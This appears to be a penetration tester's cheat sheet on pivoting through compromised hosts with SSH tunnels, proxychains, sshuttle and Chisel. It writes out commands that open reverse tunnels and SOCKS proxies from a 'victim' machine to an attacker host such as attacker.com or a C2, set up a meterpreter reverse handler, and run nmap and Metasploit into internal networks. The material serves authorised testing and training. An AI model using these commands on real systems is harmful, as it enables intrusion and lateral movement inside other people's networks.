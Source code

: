 # SSH Tunneling + SSHuttle and Chisel


Used for pivoting

## Local port forwarding
```bash
ssh -v -N -L localPort:targetIp:targetPort user@sshGateway <-i private_key>
```

## Remote port forwarding
* Below is the preparation that is needed to be done on the SSH Server(Pivot)
```bash
sudo echo "GatewayPorts clientspecified" >> /etc/ssh/sshd_config
sudo systemctl restart ssh
```
* Command:
```bash
ssh -R sshGatewayIp:sshGatewayPort:localIp:localPort user@sshGateway
ssh -R 127.0.0.1:2222:127.0.0.1:22 ubuntu@11.22.33.44
```

## Dynamic port forwarding with proxychains
* Has limitations: Produces inaccurate results (i.e. nmap)[^2][^3][^4]

* Proxychains preparation (Change localPort):
```bash
# Normal
sudo echo "socks4 127.0.0.1 localPort" >> /etc/proxychains.conf
```
* Command to establish connection(Basic command is just "-D"):
```bash
ssh -NfD localPort user@sshGateway
```
* Make use of proxychains:
```bash
proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
proxychains msfconsole 
proxychains rdesktop targetIP -u user -p password -g 90%
proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
proxychains firefox
```

## Dynamic port forwarding with SSHuttle
* **Recommended** and does not need root on pivot machine)
* Has limitations: Does not really work with nmap
   * Use a [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) instead on the compromised host
   
```bash
sshuttle -v -r user@sshGateway network/netmask

# Using public key authentication:
sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
```

## Chisel
* **Recommended** and does not need root on pivot machine) [^5]
* Alternative for SSH(Local, Remote and Dynamic) especially on pivoting machines
    * Built on Go
    * Has ready made binary releases on Github which works on a lot of Operating Systems[^6]
        * Better to compile though
   
```bash
# Server (On your attacking machine[Kali])
./chisel server -v -p 8000 --reverse

# Port Forwarding (Commonly on the 1st compromised machine [Pivot Machine])
## Listen on Kali 4444/tcp, forward to 10.10.10.240 port 80
./chisel client -v <YOUR_KALI_IP>:8000 R:4444:10.10.10.240:80

```
* Remote/Reverse Forwarding (for *reverse connections* [i.e. reverse_tcp])
    * Quick Diagrams for the visual people
        * [INTERNET_ISOLATED_MACHINE] --> [Pivot_Machine] --(FIREWALL)--(INTERNET)-- [C2/Kali]
        * making it seamless as if:
        * [INTERNET_ISOLATED_MACHINE] =============================================> [C2/Kali]
    * From Kali: `./chisel server -v -p 8000 --reverse` From C2: `./chisel server -v -p 443 --reverse` 
    * Commonly on the 1st compromised machine [Pivot Machine]
        * Let us call this [Pivot Machine]: *PHISHEDVICTIM01.acme.local*
        * *BEWARE*: May trigger _Windows Firewall Allow/Deny_ pop-up window on this host upon running. May need to allow first or create a manual firewall entry via cli or choose a firewall port already allowed but unused by a service.
        * The command below will direct any traffic it receives on 3333/tcp to your Kali 3333/tcp
            ```batch
            chisel.exe client -v <YOUR_KALI_IP>:8000  3333:127.0.0.1:3333
            #OR
            chisel.exe client -v <YOUR_C2_domain>:443 3333:127.0.0.1:3333
            ```
    * After the command above, execute the command below on your Kali/c2 machine or something similar (i.e. `exploit/multi/handler`)
        ```bash
        nc -lnvp 3333
        #OR
        msfconsole -q -x "use exploit/multi/handler;set LPORT 3333; set LHOST eth0; set payload windows/x64/meterpreter/reverse_https;run -jz"
        ```
    * Now on the [INTERNET_ISOLATED_MACHINE]/target/victim (without direct connection to your C2/Kali) like the DC or ICS.
        * Test
            ```batch
            curl.exe PHISHEDVICTIM01.acme.local:3333
            ```
        * Use a one-liner powershell
        * C2 payload to point to `PHISHEDVICTIM01.acme.local:3333`

* Chisel Socks Proxy
    * Using `reverse` command
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            ./chisel server -v -p 8000 --reverse
            sudo echo "socks5 127.0.0.1 1080" > /etc/proxychains.conf
            ```
        1. On the client/target/victim machine
            ```bash
            chisel.exe client -v <c2/kali_IP>:8000 R:socks
            or
            chisel.exe client -v attacker.com:8000 R:socks
            or
            chisel.exe client -v 192.168.1.5:8000 R:socks
            ```
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
            ssh -NfD 1080 127.0.0.1
            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
            proxychains msfconsole 
            proxychains rdesktop targetIP -u user -p password -g 90%
            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
            proxychains firefox
            ```
    * Using `socks5` command
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            ./chisel server -v -p 8000 --socks5
            ```
        1. On the client/target/victim machine
            ```bash
            chisel.exe client -v <c2/kali_IP>:8000 socks
            or
            chisel.exe client -v attacker.com:8000 socks
            or
            chisel.exe client -v 192.168.1.5:8000 socks
            ```
        1. On the server (C2[cloud] / Kali VM[internal/labs])
            ```bash
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
            ssh -NfD 1080 127.0.0.1
            proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
            proxychains msfconsole 
            proxychains rdesktop targetIP -u user -p password -g 90%
            proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
            proxychains firefox
            ```
    * TIP
        * If the chisel server is on a cloud C2, and you want to connect from your kali(separate machine)
            * Perform step **c.** on your Kali instead, no need to do it on the chisel server(c2)
                * Just change `ssh -NfD 1080 127.0.0.1` to `ssh -NfD 1080 ubuntu@c2domain.com`


[^1]: [not so pro](https://blog.notso.pro/2019-10-24-tactical-debriefing1/)
[^2]: [MrW0r57](https://mrw0r57.github.io/2020-05-31-linux-post-exploitation-10-4/)
[^3]: [CodeProject - Grant Curell](https://www.codeproject.com/tips/634228/how-to-use-proxychains-forwarding-ports)
[^4]: [NetSec](https://netsec.ws/?p=278)
[^5]: [Download from Github](https://github.com/jpillora/chisel)
[^6]: [0xdf](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
